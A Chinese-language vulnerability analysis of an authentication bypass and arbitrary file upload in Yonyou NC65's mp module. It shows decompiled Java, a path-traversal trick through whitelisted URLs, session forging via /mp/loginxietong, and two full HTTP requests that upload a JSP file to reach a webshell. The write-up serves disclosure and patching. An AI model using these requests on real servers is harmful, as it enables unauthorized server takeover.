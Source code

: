 

# 用友NC mp模块文件上传漏洞分析 - 先知社区

用友NC mp模块文件上传漏洞分析

- - -

## 漏洞描述

通过mp模块进行任意文件上传，从而上传webshell实现控制服务器。

## 影响版本

用友NC65

## 漏洞分析

配置文件`hotwebs/mp/WEB-INF/spring-mvc.xml`

拦截器

```plain
<mvc:interceptors>
    <mvc:interceptor>
        <mvc:mapping path="/**" />
        <bean id="loginInterceptor" class="com.yonyou.uap.mp.interceptor.LoginInterceptor" />
    </mvc:interceptor>
</mvc:interceptors>
```

在 \\hotwebs\\mp\\WEB-INF\\lib\\uap.mp.core-0.1.0.jar

```plain
public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
    HttpSession session = request.getSession();
    Object logined = session.getAttribute("user_logined");
    String url = request.getRequestURL().toString();
    if (!url.endsWith("mp/") && !url.endsWith("mp")) {
        if (url.endsWith("index.html")) {
            if (logined == null) {
                response.sendRedirect(request.getContextPath() + "/login.html");
                return false;
            } else {
                return true;
            }
        } else if (!(handler instanceof HandlerMethod)) {
            return true;
        } else {
            HandlerMethod handler2 = (HandlerMethod)handler;
            ResponseBody json = (ResponseBody)handler2.getMethodAnnotation(ResponseBody.class);
            String msg = "";
            boolean flag = false;
            logger.info(">>>: " + url);
            String[] arr$ = IGNORE_URI;
            int len$ = arr$.length;

            for(int i$ = 0; i$ < len$; ++i$) {
                String s = arr$[i$];
                if (url.contains(s)) {
                    flag = true;
                    break;
                }
            }

            if (!flag) {
                msg = this.autoLogin(request);
                if (logined == null) {
                    msg = StringUtils.isNotEmpty(msg) ? msg : "<a href='/mp/logout' class='tips_login'>您未登录或长时间未操作,请先登录<a/>";
                    if (null == json) {
                        if (url.indexOf("indexforportal") >= 0) {
                            response.sendRedirect("/mp?indexforportallogin=portallogin");
                        } else {
                            response.sendRedirect("/mp");
                        }
                    } else {
                        MPUtils.sendResponseMsg(response, false, msg);
                    }
                } else {
                    flag = true;
                }
            }

            return flag;
        }
    } else if (logined == null) {
        response.sendRedirect(request.getContextPath() + "/login.html");
        return false;
    } else {
        return true;
    }
}
```

首先通过`request.getRequestURL().toString()`拿到 url路径（不带参数），如果url不是以`mp/`和`mp`结尾，进入if，

`if (url.endsWith("index.html"))`判断是否登录，登陆状态不拦截，否则拦截。

`else if (!(handler instanceof HandlerMethod))` HandlerMethod是 Spring MVC 中用于表示控制器方法的类，如果请求的不是一个控制器方法，那么放行。正常来说我们请求接口是某个特定的控制器，所以一般在未登录状态下，请求后端接口时，会进入else循环，

```plain
HandlerMethod handler2 = (HandlerMethod)handler;
ResponseBody json = (ResponseBody)handler2.getMethodAnnotation(ResponseBody.class);
```

尝试从该方法上获取 `@ResponseBody` 注解的信息。如果方法上存在 `@ResponseBody` 注解，它将返回 `@ResponseBody` 注解的实例，否则将返回 `null`。比如说 json形式。

```plain
private static final String[] IGNORE_URI = new String[]{"/initcfg", "/login", "/index", "/automsg", "/loginxietong", "/loginportal", "/signportal", "/loginportaldetail", "/loginportalmobile"};
```

接下来在`url.contains(s)`会判断url中是否存在`IGNORE_URI`中的内容，如果包含，将flag 设置为 true，跳过 `if (!flag)` 最终放行 `return flag;`。

那么我们如果构造 url `/mp/login/../xxxx`（假设xxx为某控制器方法），在tomcat处理中会将url 处理为 `/mp/xxxx`，而`request.getRequestURL()`和`request.getRequestURI()`，这些危险字符并不会自动剔除掉，这里又符合 上边的流程导致鉴权被绕过。当然 `login` 可换成 `IGNORE_URI`数组中的任意内容

后续在控制器方法中找到 `UploadFileServlet::doPost`，恰好可上传任意文件  
[![](assets/1702521001-aace206d5732a41c9fea71b5b57ea9c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231211174121-70f7dc9c-9809-1.png)

也可以配合`/mp/loginxietong?username=admin`直接获取session，然后利用拿到的凭据通过鉴权。

```plain
@ResponseBody
@RequestMapping(
    value = {"/loginxietong"},
    method = {RequestMethod.GET}
)
public ModelAndView login(@RequestParam("username") String username, HttpServletRequest request) {
    HttpSession session = request.getSession();
    SessionUser user = new SessionUser();
    user.setUserCode(username);
    user.setAdmin(false);
    user.setName(username);
    session.setAttribute("user_logined", user);
    logger.info("协同用户登录===>" + username);
    return new ModelAndView("redirect:/indexforxietong.html");
}
```

## 漏洞复现

绕过鉴权

```plain
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314

------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

test content
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
```

路径是 `` `/mp/uploadFileDir/test.jsp ``

另一种方法：

先获取 cookie：url+/mp/loginxietong?username=admin

```plain
POST /mp/uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0884AE37CCD3416B96C5546D03E67F10.server; mp_name=admin;JSESSIONID=F5E62B60F069DA492605F276E527A71C.server
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314

------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

test content
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
```

## 漏洞修复

打相关补丁即可。  
[https://security.yonyou.com/#/noticeInfo?id=342](https://security.yonyou.com/#/noticeInfo?id=342)
